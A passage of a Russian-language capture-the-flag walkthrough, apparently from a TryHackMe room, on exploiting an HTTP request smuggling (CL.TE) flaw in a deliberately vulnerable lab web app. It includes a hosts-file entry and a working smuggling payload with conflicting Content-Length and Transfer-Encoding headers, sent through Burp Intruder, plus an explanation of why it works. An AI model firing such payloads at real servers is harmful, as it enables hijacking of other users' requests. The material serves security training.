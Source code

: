 /etc/хосты
```commandline
127.0.0.1       localhost
127.0.1.1       tryhackme.lan   tryhackme
MACHINE_IP     httprequestsmuggling.thm
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
### Оценка заявки
Веб-приложение для этой комнаты использует ссылку http://httprequestsmuggling.thm . Оно содержит форму Home, Login и 
Contact, которая позволяет пользователям получать доступ и отправлять отзывы разработчику. Для демонстрации 
отправленные запросы сохраняются в каталоге /submissions.  Ниже приведен снимок экрана приложения:   

Домашняя страница уязвимого приложения


Использование приложения
Используя Burp Suite Proxy, перехватите запрос, отправленный в индекс веб-сайта. Этот запрос станет базовым, который 
мы будем использовать для эксплуатации уязвимого приложения. 

Базовый запрос на использование в целях контрабанды

Отправьте запрос Intruder и скопируйте и вставьте указанную ниже полезную нагрузку в поле «Позиции полезной нагрузки».

Полезная нагрузка
```commandline
POST / HTTP/1.1
Host: httprequestsmuggling.thm
Content-Type: application/x-www-form-urlencoded
Content-Length: 160
Transfer-Encoding: chunked

0

POST /contact.php HTTP/1.1
Host: httprequestsmuggling.thm
Content-Type: application/x-www-form-urlencoded
Content-Length: 500

username=test&query=§
```

Распределение полезной нагрузки
В уязвимости CL.TE, поскольку прокси или фронтенд отдают приоритет заголовку Content-Length , 160 байт тела 
считаются телом первого POST. Фронтенд думает, что это один запрос, и пересылает его в конвейер, где бэкенд-сервер 
теперь отдает приоритет Transfer-Encoding, заканчивая первый запрос POST на первом фрагменте размером 0 и 
предполагая, что второй POST — это другой запрос.   
